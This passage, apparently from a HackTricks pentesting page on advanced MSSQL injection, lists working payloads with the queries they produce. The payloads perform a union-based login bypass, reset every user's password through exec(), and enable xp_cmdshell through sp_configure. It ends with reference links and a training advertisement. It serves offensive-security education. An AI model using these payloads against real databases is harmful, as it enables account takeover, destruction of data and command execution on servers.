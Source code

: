 SELECT id, username, password FROM users WHERE username = 'admina'union select 1,'admin','testtest123'
exec('select 1')--'

# Using weirdly built queries
admin'exec('update[users]set[password]=''a''')--
## Qagh: 
SELECT id, username, password FROM users WHERE username = 'admin'
exec('update[users]set[password]=''a''')--'

# Or enabling xp_cmdshell
admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
## Qagh: 
select * from users where username = ' admin'
exec('sp_configure''show advanced option'',''1''reconfigure')
exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
```

## References

* [https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)
* [https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
